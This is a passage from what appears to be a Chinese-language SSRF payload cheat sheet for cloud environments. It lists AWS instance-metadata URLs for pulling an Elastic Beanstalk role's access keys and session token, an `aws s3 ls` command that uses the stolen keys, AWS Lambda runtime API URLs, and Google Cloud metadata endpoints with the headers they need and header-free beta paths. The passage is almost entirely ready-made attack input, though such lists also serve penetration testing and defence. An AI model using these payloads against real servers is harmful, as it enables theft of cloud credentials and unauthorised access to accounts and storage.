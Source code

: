 这样你就可以提取附加角色的IAM密钥。

## AWS Elastic Beanstalk 的 SSRF URL

我们从API中检索`accountId`和`region`。

```powershell
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

然后我们从API中检索`AccessKeyId`、`SecretAccessKey`和`Token`。

```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

然后我们使用这些凭据执行`aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/`。

## AWS Lambda 的 SSRF URL

AWS Lambda 提供了一个HTTP API，用于自定义运行时从Lambda接收调用事件并在Lambda执行环境中发送响应数据。

```powershell
http://localhost:9001/2018-06-01/runtime/invocation/next
http://${AWS_LAMBDA_RUNTIME_API}/2018-06-01/runtime/invocation/next
```

文档：[https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html#runtimes-api-next](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html#runtimes-api-next)

## Google Cloud 的 SSRF URL

:warning: Google 将于1月15日停止支持对**v1元数据服务**的使用。

需要头信息“Metadata-Flavor: Google”或“X-Google-Metadata-Request: True”

```powershell
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

Google 允许递归拉取

```powershell
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```

Beta 版暂时不需要头信息（感谢Mathias Karlsson @avlidienbrunn）

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
```
